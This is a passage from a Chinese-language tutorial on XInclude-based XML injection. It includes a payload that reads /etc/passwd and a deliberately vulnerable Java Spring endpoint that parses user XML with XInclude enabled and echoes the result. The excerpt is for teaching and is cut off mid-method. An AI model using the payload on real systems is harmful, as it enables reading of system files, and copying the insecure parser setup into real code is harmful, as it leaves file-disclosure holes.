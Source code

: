 ![image-20231004092344161](images/14.png)

## Xinclude

Xinclude可以理解为xml中的include，就像PHP的include一样，用来引入文件

有的 web 应用程序会把用户输入的数据嵌入到后端的 XMl 里，然后再进行解析。这就意味着攻击者无法直接的控制整个 xml 文档，也无法修改 dtd 元素

但是我们可以改用 xinclude 进行攻击，Xinclude 是一个 XML 的特性。其允许从子文档中构建 XML 文档，那么攻击的开始我们需要一个 标记 xi:include

```dtd
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

漏洞代码：

```java
@RequestMapping(value = "/DocumentBuilder/xinclude/vuln", method = RequestMethod.POST)
@ResponseBody
public String DocumentBuilderXincludeVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setXIncludeAware(true);   // 支持XInclude
        dbf.setNamespaceAware(true);  // 支持XInclude
        DocumentBuilder db = dbf.newDocumentBuilder();
        StringReader sr = new StringReader(body);
        InputSource is = new InputSource(sr);
        Document document = db.parse(is);  // parse xml

        NodeList rootNodeList = document.getChildNodes();
        StringBuilder stringBuilder = new StringBuilder();
        for (int i = 0; i < rootNodeList.getLength(); i++) {
            Node rootNode = rootNodeList.item(i);
            NodeList xxe = rootNode.getChildNodes();
            for (int j = 0; j < xxe.getLength(); j++) {
                Node xxeNode = xxe.item(j);
                // 测试不能blind xxe，所以强行加了一个回显
                logger.info("xxeNode: " + xxeNode.getNodeValue());	// 打印日志上
                stringBuilder.append(xxeNode.getNodeValue());	// 用于最后输出到页面上
            }

        }

        sr.close();
        return stringBuilder.toString();
    } catch (Exception e) {
```